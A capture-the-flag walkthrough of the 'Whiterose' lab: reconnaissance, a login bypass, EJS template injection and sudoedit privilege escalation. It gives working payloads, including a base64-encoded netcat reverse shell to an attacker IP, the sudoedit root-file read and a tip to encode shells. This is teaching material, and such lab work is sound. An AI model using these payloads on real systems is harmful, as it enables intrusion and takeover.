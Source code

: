 # 🌹 Whiterose CTF Walkthrough

*"It's not about who I am, it's about what I can do."*  

**Date**: January 4, 2025  
**Target**: Cyprus Bank  

## 🔍 Initial Recon

### 1. Network Scanning with Nmap
Kicked  things off with an aggressive scan:

nmap -Pn -sV -vv 10.10.15.61

Findings:

    SSH on port 22 (OpenSSH 7.6p1 Ubuntu)

    Web server on port 80 (nginx 1.14.0)

## 🚪 Gaining Access ###
2. Credentials Found

Stumbled upon login details:

    Username: Olivia Cortez

    Password: olivi8

3. Subdomain Enumeration

Used ffuf to hunt for hidden subdomains:
bash

ffuf -u http://cyprusbank.thm -H "HOST:FUZZ.cyprusbank.thm" -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -fw 1

Jackpot: Found admin.cyprusbank.thm (added to /etc/hosts)
 ### 🎯 Challenges Solved ###
Q1: Tyller Wellick's Phone Number

The number was hidden in messages...

Trick: Changed message count to 0 to reveal all history
Bonus: Found Gayle Bev's old password: p~]P@5!6;rs558:q
Q2: user.txt Flag

Approach:

    Logged in as Tylerr Wellick (password: admin)

    Intercepted with Burp Suite → deleted password:& → sent just a&

    Discovered /settings.ejs vulnerability

EJS Exploit:
javascript

settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('bash -c "echo YnVzeWJveCBuYyAxMC45LjI1NS40IDg4ODggLWUgL2Jpbi9zaA== | base64 -d | bash"');s

Shell Stabilization:
bash

python3 -c "import pty;pty.spawn('/bin/bash')"
export TERM=xterm

Flag: THM{4lways_upd4te_uR_d3p3nd3nc!3s}
 ### 👑 Privilege Escalation ###
Q3: Root Flag

Method:

    Ran sudo -l to check privileges

    Exploited sudoedit vulnerability:

bash

export EDITOR="vim -- /root/root.txt"
sudoedit /etc/nginx/sites-available/...

Pro Tip: Always check sudo permissions - sometimes the path to root is simpler than you think!
### 💡 Lessons Learned ###

    EJS templates can be dangerous if not properly secured

    Always encode your reverse shells when dealing with web apps

    sudoedit is a sneaky privilege escalation vector

Happy hacking! 🚩
